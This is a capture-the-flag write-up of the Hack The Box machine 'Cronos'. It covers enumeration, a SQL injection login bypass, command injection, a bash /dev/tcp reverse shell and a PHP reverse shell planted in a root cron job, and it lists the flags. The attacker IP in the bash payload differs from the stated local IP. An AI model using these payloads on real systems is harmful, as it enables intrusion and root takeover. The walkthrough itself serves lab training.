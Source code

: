 # HTB: Cronos  
## Engagement Overview
**Target:** Cronos
**Box IP:** 10.10.10.13
**Local IP:** 10.10.14.10
**Date:** 2025-07-12  

---

## Objectives
- Exploit SQL injection vulnerability
- Achieve shell access and escalate to root via cron job abuse

---

## Service Enumeration

### Nmap
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```

- **Gobuster:** No useful results  
- **DNS Info (dig):**
  ```
  cronos.htb. 604800 IN SOA cronos.htb. admin.cronos.htb.
  ```

---

## Exploitation

### Initial Access

**Vulnerability:**  
- SQL Injection on `admin.cronos.htb` login form  
- Payload: `' OR 1=1-- -`  

**Confirmation:**  
Ping test to attacker IP succeeded:
```
PING 10.10.14.10 (10.10.14.10): 64 bytes from 10.10.14.10: time=43.6 ms
```

**Command Injection:**  
Using Burp Suite Repeater:
```
command=ls+-l&host=/var/www
```
Response:
```
drwxr-xr-x  2 www-data www-data 4096 May 10 2022 admin
drwxr-xr-x  2 www-data www-data 4096 May 10 2022 html
drwxr-xr-x 13 www-data www-data 4096 May 10 2022 laravel
```

**Reverse Shell Payload:**  
```bash
command=bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.24/443+0>%261'%26host=
```

Shell acquired as `www-data`.

---

## Privilege Escalation

### Enumeration
- Discovered cron job running Laravel scheduler:
  ```
  * * * * * root php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
  ```

### Exploitation
- Poisoned artisan job to execute PHP reverse shell:
```php
$sock=fsockopen("10.10.14.10", 443);
exec("/bin/sh -i <&3 >&3 2>&3");
```

- Shell established as `root`.

---

## House Cleaning
- Removed:
  - `linpeas.sh`
  - Malicious code from Laravel artisan
- No additional uploads or tools left behind

---

## Post-Exploitation

### Credentials & Flags
- `user.txt`: `e053208bdfc3ad87d7d492285a15512a`  
- `root.txt`: `d800ebbbb59fee6c01e6e2f208e41416`

---

## Tools Utilized
- Burp Suite
- linPEAS
- netcat / listener

---

## Key Takeaways
- linPEAS highlighted numerous other potential vulnerabilities, but only the cron job was exploited
- This box served as good hands-on training for:
  - Manual SQL injection
  - Laravel-based cron job abuse
  - Gaining shell via Burp Suite command injection